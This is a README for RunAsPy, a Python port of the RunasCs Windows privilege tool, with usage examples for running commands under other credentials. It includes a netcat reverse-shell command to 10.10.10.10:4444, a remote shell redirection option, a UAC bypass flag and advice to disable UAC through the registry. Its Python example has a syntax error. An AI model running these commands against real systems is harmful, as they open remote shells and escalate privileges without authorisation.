 # RunAsPy

A python port of [RunAsCs](https://github.com/antonioCoco/RunasCs)

*RunasPy* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasPy* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``

## Requirements

----

Python >= 3.8

## Usage

----

### commandline

```console
usage: RunAs.py [-h] [-d [DOMAINNAME]] -u [USERNAME] -P [PASSWORD] -c [CMD ...] [-t [PROCESSTIMEOUT]]
                [-l [{2,3,4,5,8,9}]] [-f [CREATEPROCESSFUNCTION]] [-r [REMOTE]] [-p] [-b] [-i] [-v]

options:
  -h, --help            show this help message and exit
  -d [DOMAINNAME], --domain [DOMAINNAME]
  -u [USERNAME], --username [USERNAME]
  -P [PASSWORD], --password [PASSWORD]
  -c [CMD ...], --command [CMD ...]
  -t [PROCESSTIMEOUT], --timeout [PROCESSTIMEOUT]
  -l [{2,3,4,5,8,9}], --logon-type [{2,3,4,5,8,9}]
  -f [CREATEPROCESSFUNCTION], --function [CREATEPROCESSFUNCTION]
  -r [REMOTE], --remote [REMOTE]
  -p, --force-profile
  -b, --bypass-uac
  -i, --remote-impersonation
  -v, --verbose         increase verbosity
```

### Run a command as a local user

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all"
```

### Run a command as a domain user and logon type as NetworkCleartext (8)

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -d domain -l 8
```

### Run a background process as a local user,
    
```console
Runas.py -u user1 -P password1 -c "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
```

### Redirect stdin, stdout and stderr of the specified command to a remote host
   
```console
Runas.py -u user1 -P password1 -c cmd.exe -r 10.10.10.10:4444
```

### Run a command simulating the /netonly flag of runas.exe

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -l 9
```

### Run a command as an Administrator bypassing UAC
    
```console
Runas.py -u adm1 -P password1 -c "cmd /c whoami /priv" --bypass-uac
```

### Run a command as an Administrator through remote impersonation

```console
Runas.py -u adm1 -P password1 -c "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

### programmatic (python module)

```python
import RunAsPy
config = {"username": "foo", "password": "F00", "cmd": "whoami /priv", "verbose"=True, bypassUac=True}
output = RunAsPy.Runas(**config)
print(output)
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 2 (*Interactive*). 

By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.

**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.

By default, the calling process (*RunasPy*) will wait until the end of the execution of the spawned process. 
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasPy* won't wait for the end of the newly spawned process execution.

## Special Thanks

* [antonioCoco](https://github.com/antonioCoco) - for the RunAsCs project
* [natesubra](https://github.com/natesubra) - For the help with the UAC bypass
